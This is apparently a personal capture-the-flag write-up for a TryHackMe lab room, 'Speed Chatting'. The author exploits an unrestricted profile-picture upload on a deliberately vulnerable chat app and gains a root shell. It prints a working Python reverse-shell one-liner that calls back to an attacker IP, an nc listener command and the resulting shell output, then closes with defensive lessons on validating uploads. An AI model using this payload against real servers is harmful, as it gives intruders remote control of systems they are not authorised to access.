




<div align="center">

# 💌 Speed Chatting

**Breaking into "LoveConnect" before Valentine's Day ships a vulnerable app to production**


</div>

---

## 💭 So what's this room about

Days before Valentine's Day, TryHackMe rushed out a new messaging platform called **"Speed Chatter"**, promising instant connections and private conversations. In the race to beat the holiday deadline, security took a back seat — rumors say it was pushed to production without proper testing.

As the security researcher on the case, the job is to break into **Speed Chatter**, uncover its flaws, and expose the negligence before the damage becomes irreversible. The target app ("LoveConnect - Speed Chatter") is a pink, heart-themed dating/chat site with a profile picture upload feature sitting next to a live chat box.

---

## 🛠️ What I used

- Firefox (Kali) + DevTools (Inspector/Network) to study the upload form
- `nc` (netcat) to catch the reverse shell
- A Python reverse-shell one-liner (`shell.py`)
- A Simple Text Editor to write the payload
- Basic terminal / bash on Kali

---

## 🔍 How it went down

**1. Recon the app**

Opened the target at `http://10.48.128.144:5000` — "LoveConnect", with a demo profile ("demo — Looking for love!") and a chat box beside it.



**2. Inspect the upload form**

Popped open DevTools → Inspector and found the "Update Photo" section:

```html
<form id="uploadForm" action="/upload_profile_pic" method="post" enctype="multipart/form-data">
  <label class="file-label" for="fileInput">Choose File</label>
  <input id="fileInput" type="file" name="profile_pic" required>
  <button type="submit">Upload</button>
</form>
```

A plain multipart POST to `/upload_profile_pic`, tied to a `profile_pic` field — with no visible client- or server-side restriction on file type. Classic setup for an **unrestricted file upload** vulnerability.



**3. Write the payload**

Wrote a Python reverse shell (`shell.py`) in the text editor:

```python
import os,socket,subprocess;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.192.234",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
```



**4. Start the listener**

```bash
nc -lvnp 1234
```

**5. Upload and trigger**

Uploaded `shell.py` through the "Choose File → Upload" flow on the profile page, then hit the uploaded file's path directly in the browser to trigger execution server-side — the `/upload_profile_pic` endpoint saved the file without validating its type or blocking it from being executed.

**6. Catch the shell and grab the flag**

```
listening on [any] 1234 ...
connect to [192.168.192.234] from (UNKNOWN) [10.48.128.144] 52406
bash: cannot set terminal process group (417): Inappropriate ioctl for device
bash: no job control in this shell
root@tryhackme-2204:/opt/Speed_Chat# ls
app.py
flag.txt
uploads
root@tryhackme-2204:/opt/Speed_Chat# cat flag.txt
```

Landed as **root**, straight away.



---

## 💡 What I actually learned

- **Never trust file uploads at face value.** No extension whitelist, no MIME-type check, and no sandboxing meant any file — including an executable payload — could be dropped straight into a web-accessible directory.
- **Uploaded content ending up inside the web root is a red flag on its own.** If a server lets you fetch what you just uploaded, that upload directory needs to be non-executable at minimum.
- **"Shipped before testing" is a real attack surface, not just a joke.** The room's framing (a feature rushed before a deadline) mirrors a lot of real incidents — missing validation is usually a time/priority problem, not a knowledge problem.
- Reinforced how a tiny Python reverse shell one-liner is often all that's needed once arbitrary file upload + execution lines up.

---

## 🚩 About the flag

The flag was retrieved from `/opt/Speed_Chat/flag.txt` after landing a root shell via the malicious profile picture upload.

Per TryHackMe's rules, flags are never posted in plain text:

```
████{███████████████████████████}
```

---

<div align="center">

Writeup by **Simranjit Kaur** · part of my [CTF Writeup Collection](../README.md)

</div>
